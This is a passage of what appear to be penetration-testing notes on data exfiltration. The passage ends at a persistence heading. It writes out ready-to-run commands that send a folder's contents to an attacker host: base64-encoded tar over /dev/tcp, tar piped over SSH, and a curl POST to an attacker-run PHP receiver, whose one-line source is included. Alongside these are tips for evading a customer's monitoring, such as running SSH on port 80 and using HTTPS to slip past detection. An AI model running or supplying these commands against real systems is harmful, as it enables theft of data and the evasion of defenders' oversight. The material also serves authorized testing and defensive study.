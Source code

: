 2. encode and redirect the data over a local TCP socket
```
tar zcf - /tmp/datafolder | base64 | dd conv=ebcdic > /dev/tcp/<kali ip>/80
```

3. decode the received datafolder.tmp
```
dd conv=ascii if=datafolder.tmp | base64 -d > datafolder.tar
```

4. Extract our tar archive
```
tar xf datafolder.tar
```

### Exfil over SSH
1. tar the contents and send to the output over SSH
```
tar zcf - /tmp/datafolder | ssh root@<kali ip> "cd /tmp; tar zxpf -"
```

2. on kali, the data is already untared and in our /tmp/datafolder. We can simply browse to the /tmp/datafolder and view our data.

// For extra **stealthiness**, we should configure our SSH server on port 80 For instance.
// Just in case the customer is monitoring For SSH traffic over the standard port 22.


### Exfil via POST Request over HTTPS
- we can transfer data over HTTPS/SSL, helping us evade heuristics detection over an encrypted channel.
- with this method, we **POST** base64 encoded data over HTTPS to a PHP-based web server that is under our control. This method assumes you have a webserver that is PHP-enabled, and that you have an SSL certificate installed.

1. create a PHP file that will write data being received as a POST request
```php
<?php file_put_contents('/tmp/datafolder.base64', file_get_contents('php://input')); ?>
```

2. curl to send a POST request consisting of the tared and base64-encoded data from the victims /tmp/datafolder directory. We send that POST request to our attacker-controlled PHP web servers contact.php file over SSL which will write a copy of the base64-encoded tar archive to a /tmp/datafolder.base64 file on our attacker system
```
curl --data "(tar zcf - /tmp/datafolder | base64)" https://<kali ip>/contact.php
```

3. decode the data while redirecting the output to a datafolder.tar archive, and extract
```
cat /tmp/datafolder.base64 | base64 -d > datafolder.tar && tar xf datafolder.tar
```




## Maintaning Access & Persistence
